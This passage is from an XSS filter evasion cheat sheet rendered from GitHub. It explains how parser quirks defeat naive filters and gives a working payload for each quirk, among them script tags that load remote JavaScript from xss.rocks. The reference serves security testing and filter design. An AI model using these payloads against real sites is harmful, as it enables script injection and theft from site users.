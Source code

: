 <h2><a id="user-content-spaces-and-meta-chars-before-the-javascript-in-images-for-xss" class="anchor" aria-hidden="true" href="#spaces-and-meta-chars-before-the-javascript-in-images-for-xss"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Spaces and meta chars before the JavaScript in images for XSS</h2>
<p>This is useful if the pattern match doesn't take into account spaces in the word <code>javascript:</code> -which is correct since that won't render- and makes the false assumption that you can't have a space between the quote and the <code>javascript:</code> keyword. The actual reality is you can have any char from 1-32 in decimal:</p>
<pre><code>&lt;IMG SRC=" &amp;#14;  javascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-non-alpha-non-digit-xss" class="anchor" aria-hidden="true" href="#non-alpha-non-digit-xss"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Non-alpha-non-digit XSS</h2>
<p>The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example <code>\&lt;SCRIPT\\s</code> != <code>\&lt;SCRIPT/XSS\\s</code>:</p>
<pre><code>&lt;SCRIPT/XSS SRC="http://xss.rocks/xss.js"&gt;&lt;/SCRIPT&gt;
</code></pre>
<p>Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc...) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:</p>
<pre><code>&lt;BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")&gt;
</code></pre>
<p>Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.</p>
<pre><code>&lt;SCRIPT/SRC="http://xss.rocks/xss.js"&gt;&lt;/SCRIPT&gt;
</code></pre>
<h2><a id="user-content-extraneous-open-brackets" class="anchor" aria-hidden="true" href="#extraneous-open-brackets"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Extraneous open brackets</h2>
<p>Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:</p>
<pre><code>&lt;&lt;SCRIPT&gt;alert("XSS");//\&lt;&lt;/SCRIPT&gt;
</code></pre>
<h2><a id="user-content-no-closing-script-tags" class="anchor" aria-hidden="true" href="#no-closing-script-tags"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>No closing script tags</h2>